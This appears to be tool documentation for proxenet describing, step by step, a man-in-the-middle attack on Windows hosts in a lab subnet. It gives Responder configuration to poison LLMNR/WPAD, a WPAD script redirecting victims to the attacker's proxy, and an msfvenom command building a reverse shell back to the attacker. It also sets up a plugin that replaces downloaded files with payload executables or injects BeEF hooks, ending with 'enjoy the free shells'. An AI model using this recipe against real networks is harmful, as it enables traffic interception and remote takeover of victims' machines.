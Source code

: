 # Proxenet-In-The-Middle attack #

`proxenet` can also be used to deliver automated payloads via a
Man-in-the-Middle attack. This can be done with the help of the awesome [Responder](https://github.com/SpiderLabs/Responder) tool, in two easy steps.


## Network setup ##

In this example, We will target Windows hosts on the network `192.168.56.0/24`. Our evil box will be
located at `192.168.56.1`.

Let's do this.


## Responder setup ##

We will use `Responder` to spoof NetBIOS packets and poison local network
Windows workstation WPAD configuration, and redirect traffic to our evil box. The configuration is
very simple, as we only need to use poisoning feature of `Responder`.

**_Note_**: I used _jrmdev_ version of `Responder` because it is way cleaner
that the master version from SpiderLabs, and has better support for WPAD and
proxy forwarding. You can clone it from GitHub:

```
$ git clone https://github.com/jrmdev/Responder.git
$ cd Responder && git checkout -b remotes/origin/responder-refactoring
```

We only want to use the LLMNR and WPAD functionalities, so we will disable all
the rest. Simply set it up with the following configuration:
```
[Responder Core]
SQL = Off
SMB = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = On
HTTPS = Off
DNS = Off
LDAP = Off
Challenge = 1122334455667788
Database = Responder.db
SessionLog = Responder-Session.log
PoisonersLog = Poisoners-Session.log
AnalyzeLog = Analyzer-Session.log
RespondTo =
RespondToName = WPAD
DontRespondTo =
DontRespondToName =

[HTTP Server]
Serve-Always = Off
Serve-Exe = Off
Serve-Html = Off
HtmlFilename = files/AccessDenied.html
ExeFilename = files/BindShell.exe
ExeDownloadName = ProxyClient.exe
WPADScript = function FindProxyForURL(url, host){ return 'PROXY 192.168.56.1:8008';} ; change this address to your situation
HTMLToInject = <h1>pwn</h1>

[HTTPS Server]
SSLCert = certs/responder.crt
SSLKey = certs/responder.key
```

And just run it to forward to our `proxenet` (which will be listening on
`192.168.56.1:8008` - see proxenet setup below).
```
sudo python2 Responder.py -v -I vboxnet0 -w
```

`Responder` will now poison all the requests to our `proxenet` process.

![nbt-poison](img/nbt-poison.png)


## proxenet setup ##

Create or edit the `proxenet` plugin configuration file, `$HOME/.proxenet.ini`
with the following sections.
```
[oPhishPoison]
; This should point to the payload to be inserted as the HTTP response.
; For example:
; msfvenom -p windows/shell_reverse_tcp -f raw -b '\x0d\x0a\x00\xff' -o mypayload LHOST=192.168.56.1 LPORT=4444
msfpayload   = %(home)s/tmp/my_payload

; Point to Python binary
python       = /usr/bin/python2.7

; Download https://gist.github.com/hugsy/18aa43255fd4d905a379#file-xor-payload-py
; and copy its path to this configuration script.
xor_payload  = %(home)s/code/xor-payload/xor-payload.py

; This should point to the HTML page to inject every time a user fetches
; any HTML page
html_inject_stub = %(home)s/tmp/injected_page.html
```
The `html_inject_stub` option can be used also to easily inject your BeEF hooks
too.

The plugin `oPhishPoison.py` (available in the `proxenet-plugins` GitHub
repository) will deal with the substitution of the traffic the way you want.
You can insert any Metasploit Framework payload or an HTA page. The choice is
yours!

Add the plugin `oPhishPoison.py` to the autoload directory of `proxenet` and
start it.
```
$ ln -sf proxenet-plugins/oPhishPoison.py proxenet-plugins/autoload/oPhishPoison.py
$ ./proxenet -b 192.168.56.1 -p 8008 -i -N
```

Adding the `-N` option disables the SSL interception and make it stealthier. The
`-i` option forces `proxenet` to use the Internet Explorer compatibility mode.

From the moment `proxenet` and `Responder` are configured and running, fake LLMNR
and WPAD responses will be sent to the victims. By default, the `oPhishPoison`
plugin will replace known binary content types (such as Office documents, ZIP
files, RAR archives, etc.) with PE executables containing your payloads.

When `Responder` poisons the LLMNR request for WPAD, it will redirect the
victim to fetch the PAC configuration from itself.
![responder-wpad](img/responder-wpad.png)

After that, **every** HTTP request from this victim will go through `proxenet`.
You will very soon see this kind of message appearing on your screen:
![proxenet-poison](img/proxenet-poison.png)

This indicates that the attack was successful. From now, just wait for the
shells ☺


## What's next?

Literally, nothing! The MitM will operate in a totally transparent way, that's
the beauty of it.

   1. The Windows hosts of the victims will get poisoned by `Responder` to point
   the WPAD NetBios name to our hosts.
   2. Browsers setup in "Auto-configuration" mode are vulnerable.
   3. Every HTTP request will go through `proxenet` and the response will be
   poisoned with whatever content you setup.
   4. Enjoy the free shells !


## Live demo

Click [here](https://youtu.be/eN_HwFkyYyw) for a live demo.
